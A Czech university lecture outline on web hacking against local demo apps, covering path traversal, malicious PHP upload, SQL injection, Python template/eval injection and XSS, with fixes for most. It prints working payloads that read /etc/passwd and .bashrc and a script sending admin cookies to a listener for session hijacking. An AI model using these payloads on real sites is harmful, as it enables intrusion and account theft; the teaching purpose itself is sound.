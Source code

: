 # Hackování webů

Osnova a příprava přednášky.

Příprava PHP prostředí:
```sh
sudo apt install php-fpm php-sqlite3
sudo cp etc/php-fpm-jirka.conf /etc/php/8.2/fpm/pool.d/
sudo systemctl restart php8.2-fpm.service
nginx -p $(pwd) -c etc/nginx.conf
```

Cleanup PHP prostředí:
```sh
sudo /etc/php/8.2/fpm/pool.d/php-fpm-jirka.conf
sudo systemctl restart php8.2-fpm.service
```

## Jak funguje web?

Budeme dělat celkem tři typy útoků:

1. Útok na web samotný = přesvědčit web, aby udělal něco, co chci)
2. Útok na uživatele = přesvědčit uživatele (nebo jeho prohlížeč :D), aby udělal, co chci
3. Útok mezi = odposlouchávat nebo narušovat komunikaci (MITM = Man-in-the-middle)

Abychom věděli, jak se dá útočit, musíme nejdřív pochopit základ webu:

- Protokol HTTP = HyperText Transfer Protocol
  - request a odpověď (metody requestu - GET/POST/...)
  - obsahuje hlavičky
  - podívejme se na nějaký (`curl -v https://smf.mff.cuni.cz/`)
- Je bezestavový = server každý request obsluhuje samostatně
  - Klient (browser) mu předá informace:
    - cesta (`index.php`) + argumenty cesty (`?akce=zprava`)
    - tělo requestu (tudy jdou POST argumenty)
    - hlavičky
      - takhle typicky funguje přihlášení - **Cookies**

Ukázka GET+POST formů: http://localhost:7000/

## Útoky na server

### 1. Neošetření uživatelského vstupu - cesty (PHP)

Ukázka:
* http://localhost:7001/
* http://localhost:7001/?stranka=kontakty
* http://localhost:7001/?stranka=../../db.conf
* http://localhost:7001/?stranka=../../../../../../../etc/passwd
* bonus: http://localhost:7001/?stranka=../index.php :D

Oprava:
* http://localhost:7001/index2.php
* http://localhost:7001/index2.php?stranka=../../db.conf
* http://localhost:7001/index2.php?stranka=../../../../../../../etc/passwd

### 2. Upload souboru (PHP)

* upload souborů je nebezpečný
  * formulář na upload obrázků do složky images/ (aby šly použít třeba v komentářích)
  * http://localhost:7002/
  * umožňuje ale i upload třeba souboru `02_upload/utok.php`
    * je to PHP soubor s příponou .php -> přistoupíme do http://localhost:7002/images/utok.php
    * ... a můžeme dělat cokoliv, co nám PHP povolí
* obrana:
  * kontrolovat důkladně soubory
  * nebo jim dokonce dávat generická jména
  * http://localhost:7002/index2.php

### 3. SQL injection (PHP)

* občas potřebujeme databázi, ukázka na http://localhost:7003/
  * jednoduchá aplikace - ukládám a získávám klíče

Můžeme zkusit poslat zajímavé payloady:
* https://xkcd.com/327/ :D

```sql
' OR 'a'='a`
" OR "a"="a`
```

Když chceme přidat něco dalšího (třeba LIMIT), lze využít trik s SQL komentářem
(za komentářem musí být mezera):

```sql
' OR 1 = 1 LIMIT 1 OFFSET 1; --
' OR 1 = 1 LIMIT 1 OFFSET 2; --
```

Jak se bránit? Escapovat!
* ideálně jazykové knihovny, ruční escapování je náchylné k tomu napsat správně
  a escapovat všechny speciální znaky
  * jak escapuje SQLite, víme to?
    * https://www.sqlite.org/lang_expr.html
    * zdvojuje `'`
    * lepší použít `SQLite3::escapeString` funkci
  * jak escapuje MySQL?
    * https://www.php.net/manual/en/security.database.sql-injection.php
    * escapuje pomocí `\`
    * lepší použít

* nebo lze použít předpřipravené SQL statementy a doplnit jako proměnné
* oboje viz index2.php

### 4. Template injection (Python)

* inspirace: TheCatch (CTF hra) https://thecatch.cz/
* potřeba spustit samostatně jako Python projekt:

```sh
cd 04_template_injection
python -m flask --app app run
# opravená verze:
python -m flask --app app2 run
```

Když navštívíme stránku, tak dostaneme hned přesměrování na URL
<http://127.0.0.1:5000/hello/user>, kde se nám zobrazí "Hello user". To svádí k
tomu napsat do URL něco jiného… a skutečně, když změníme poslední část na
cokoliv, tak se to vypíše.

Zkusme, jestli se tím nedá provést nějaký code injection do šablonovacího
systému. První bychom potřebovali zjistit, v jakém jazyce je web napsaný. Zkusme
nejdříve, jestli to není Python, třeba payloadem "+__file__+". Zobrazí se nám
"Hello /app/app.py", je to Python!

Nyní si můžeme zkoušet hrát. Zkusme si vypsat zdrojový kód souboru app.py
payloadem "+str(open(__file__).read())+" (odkaz). V tuto chvíli je dobré si
zobrazit HTML kód stránky, ať vidíme kód aspoň trochu formátovaný:

Vidíme, že je jedná o skutečně jednoduchou aplikaci napsanou v Pythonu pomocí
webového frameworku Flask. Pojďme tedy zkoumat systém:

* Vypsání `/etc/passwd`: `"+str(open('/etc/passwd').read())+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(open(%22/etc/passwd%22).read())+%22)
* Vylistování `/home/smf`: `"+str(__import__("os").listdir("/home/smf"))+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(__import__(%22os%22).listdir(%22/home/smf%22))+%22)
* Přečtení `/home/smf/.bashrc`: `"+str(open("/home/smf/.bashrc").read())+"` [odkaz](http://127.0.0.1:5000/hello/%22+str(open(%22/home/smf/.bashrc%22).read())+%22)

**Jak to opravit?**

* odstranit `eval` :D (v tomhle případě)
* obecně nevěřit vstupu od uživatele - uživatelé se dělí na dva typy - hloupí uživatelé a útočníci

Teaser na další část (na XSS): http://127.0.0.1:5000/hello/%3Cscript%3Ealert(1)%3C/script%3E

## Útoky na uživatele

* umožněné špatnou implementací webu

https://medium.com/@dilarauluturhan/javascript-xss-cross-site-scripting-and-csrf-cross-site-request-forgery-6f0f4baa2fb1

### 5. XSS = Cross-site scripting (příklad: krádež cookie)

* vložíme zlý Javascript do komentáře na stránce http://localhost:7005/
  * stránka, kam lze psát příspěvky
  * může se přihlásit admin a příspěvky mazat
* použijeme druhý prohlížeč simulující útočníka:
  * nejprve vložíme `<script>alert(1)</script>` a otestujeme, že to otravuje všechny
  * admin to pak smaže a přidá třeba varování
  * my přidáme další příspěvek vytahující přes javascript jeho cookie

Útok:

1. Pustíme si `listener.py`
2. Vložíme příspěvek
   ```html
   <script>var i=new Image;i.src="http://127.0.0.1:8888/?"+document.cookie;</script>
   ```
3. Počkáme, než si admin zobrazí tuhle stránku a javascript nám nepošle request
4. Zkopírujeme si obsah PHPSESSID a voilá, jsme admin :D

https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md
